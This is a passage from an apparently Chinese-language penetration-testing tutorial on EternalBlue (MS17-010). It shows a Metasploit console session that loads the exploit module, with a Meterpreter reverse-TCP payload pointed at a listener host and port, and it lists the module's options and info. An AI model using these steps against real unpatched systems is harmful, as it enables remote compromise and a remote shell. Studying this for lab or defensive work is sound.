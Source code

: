 ### 四、永恒之蓝

永恒之蓝：MS17-010

```c
msf5 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp（未配置有效负载，默认为windows/x64/MeterMeter/reverse\u-tcp）

msf5 exploit(windows/smb/ms17_010_eternalblue) > show options   查看配置参数

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.226.129  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > show info  查看模块信息

       Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
     Module: exploit/windows/smb/ms17_010_eternalblue
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Average
  Disclosed: 2017-03-14

Provided by:
  Sean Dillon <sean.dillon@risksense.com>
  Dylan Davis <dylan.davis@risksense.com>
  Equation Group
  Shadow Brokers
  thelightcosine

Available targets:
  Id  Name
  --  ----
  0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```